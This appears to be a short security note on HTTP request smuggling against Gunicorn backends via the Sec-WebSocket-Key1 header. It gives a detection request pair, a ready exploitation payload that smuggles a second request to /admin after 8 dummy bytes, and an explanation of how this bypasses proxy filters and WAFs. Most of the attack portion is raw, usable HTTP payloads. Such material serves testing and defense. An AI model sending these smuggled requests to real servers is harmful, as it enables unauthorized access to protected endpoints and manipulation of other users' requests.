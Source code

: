 
### Detection

Send the following request via a single connection:

```http
GET / HTTP/1.1
Host: target.site
Content-Length: 49
Sec-WebSocket-Key1: x

xxxxxxxxGET /404 HTTP/1.1
Host: target.site
```

Follow it with:

```http
GET / HTTP/1.1
Host: target.site
```

If the second response is for `/404`, it indicates that the backend misaligned and parsed the embedded `GET` request separately.

---

### Exploitation Payload

```http
GET / HTTP/1.1
Host: target.site
Content-Length: 49
Sec-WebSocket-Key1: x

xxxxxxxxGET /admin HTTP/1.1
Host: target.site
```

---

### Why It Works

- Proxy uses `Content-Length: 49` and parses everything.
    
- Gunicorn backend **reads only the first 8 bytes** (`xxxxxxxx`) and treats the remainder as a separate request.
    
- This leads to **bypassing filters** or controls applied only to the first request.
    

---

### Key Takeaways

|Concept|Description|
|---|---|
|Gunicorn Bug|Triggered by `Sec-WebSocket-Key1` header|
|Fixed Body Length|Gunicorn always reads **exactly 8 bytes** as the request body|
|Exploitation Method|Smuggle a second request right after 8 dummy bytes|
|Real-world Impact|Can **bypass WAFs** or **manipulate legitimate user requests**|

---